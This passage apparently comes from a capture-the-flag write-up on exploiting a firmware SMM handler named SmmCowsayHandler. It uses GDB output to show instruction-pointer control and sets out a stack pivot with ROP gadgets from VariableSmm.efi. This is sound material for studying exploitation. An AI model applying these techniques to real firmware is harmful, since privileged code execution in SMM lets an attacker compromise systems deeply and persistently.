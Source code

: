 And now we can start the exploit and attach GDB using the following script:

```
$ cat script.gdb
target remote :1234

source gdb_plugin.py
add-all-symbols

break *(SmmCowsayHandler + 0x302)
continue
```

```
$ gdb -x script.gdb
...
Breakpoint 1, 0x0000000007ee92c5 in SmmCowsayHandler (CommBufferSize=<optimized out>, CommBuffer=0x69bb030, ...
(gdb) i r rax
rax            0x4141414141414141  4702111234474983745

(gdb) si
0x4141414141414141 in ?? ()

(gdb) x/100gx $rsp
0x7fb6a78:	0x0000000007ee92c7	0x0000000007ffa8d8
0x7fb6a88:	0x0000000007ff0bc5	0x00000000069bb030
0x7fb6a98:	0x0000000007fb6c38	0x0000000007fb6b80
...
...
...
0x7fb6b48:	0x00000000069bb018	0x0000000013131300
0x7fb6b58:	0x0000000014141414	0x0000000015151515
```

It seems like R13 (except the LSB), R14 and R15 somehow got spilled on the stack
at `rsp + 0xe0`. After returning from the `call rax` the code in
`SmmCowsayHandler` does:

```
(gdb) x/30i SmmCowsayHandler + 0x302
   0x7ee92c5 <SmmCowsayHandler+770>:	call   rax
   0x7ee92c7 <SmmCowsayHandler+772>:	test   bl,bl
   ... a bunch of useless stuff ...
   0x7ee92f7 <SmmCowsayHandler+820>:	add    rsp,0x40
   0x7ee92fb <SmmCowsayHandler+824>:	xor    eax,eax
   0x7ee92fd <SmmCowsayHandler+826>:	pop    rbx
   0x7ee92fe <SmmCowsayHandler+827>:	pop    rsi
   0x7ee92ff <SmmCowsayHandler+828>:	pop    rdi
   0x7ee9300 <SmmCowsayHandler+829>:	pop    r12
   0x7ee9302 <SmmCowsayHandler+831>:	pop    r13
   0x7ee9304 <SmmCowsayHandler+833>:	ret
```

So at the time of that last `ret` we would have the registers spilled on the
stack a lot closer. Very conveniently, amongst the gadgets we dumped, there is a
`ret 0x70` at `VariableSmm.efi + 0x8a49`. We can use this gadget to to move RSP
*exactly* on top of the spilled R14, giving us the possibility to execute one
more gadget of the form `pop rsp; ret`, which would get the new value for RSP
from the R15 value on the stack! After this, we fully control the stack and we
can write a longer ROP chain.
